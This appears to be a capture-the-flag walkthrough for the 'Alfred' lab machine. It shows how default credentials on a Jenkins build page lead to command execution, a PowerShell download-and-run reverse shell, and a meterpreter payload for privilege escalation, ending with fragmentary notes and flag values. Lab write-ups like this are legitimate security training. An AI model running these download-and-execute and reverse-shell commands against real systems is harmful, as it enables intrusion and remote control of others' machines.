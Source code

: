 # Alfred

### Initial
```
mkdir Alfred
cd Alfred
mkdir scans
export IP=10.10.226.95
export LHOST=10.6.73.147
nmap -sC -sV -Pn $IP -oN scans/normal
gobuster dir -u http://$IP:8080 -w /opt/tools/directory-list-2.3-medium.txt | tee scans/gobuster.log
```

### Alfred admin login
**http://10.10.226.95:8080** <br>
Crecentials
> **admin:admin** # Just guessed, terrible password


In "http://10.10.226.95:8080/job/project/configure" at the bottom of the page there is a space where we have command execution, we can veryfy thhis by going to "http://10.10.226.95:8080/job/project/11/console" to verify the output of our commands
<screenshot1>
<screenshot2>

There we insert this command
On web:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.73.147:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.73.147 -Port 4444
```


Get the exploit<br>
`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

Serve it in a local web server<br>
`python3 -m http.server 8080`

Also create a listener for the port we the reverse shell is goint to call bakck<br>
`nc -lnvp 4444`

Go to the website and click the **"Build Now"** button and receive the reverse shield



On the powershell console, use the Get-ChildItem cmdlet with the -Recurse switch to find the flag<br>
```
Get-ChildItem -Filter *.txt -Recurse
cat c:\users\bruce\Desktop\user.txt
```
**79007a09481963edf2e1321abd9ae2a0**<br>

Lets escalate priviledges, first, create the meterpreter reverse shell payload<br>
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.73.147 LPORT=5555 -f exe -o meterpreter.exe
```

Serve it in a local web server<br>
`python3 -m http.server 8081`

Get it from the current Powershell session<br>
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.73.147:8081/meterpreter.exe','meterpreter.exe')"
```


Set up the listener withing metasploit<br>
```
use multi/handler
set PAYLOAD /windows/meterpreter/reverse_tcp
set LHOST 10.6.73.147
set LPORT 5555
run 
```

Execute the payload
```
Start-Process meterpreter.exe
```
get elevated

get persistence
9999
SetDebugPrivilege


type C:\Windows\System32\config\root.txt

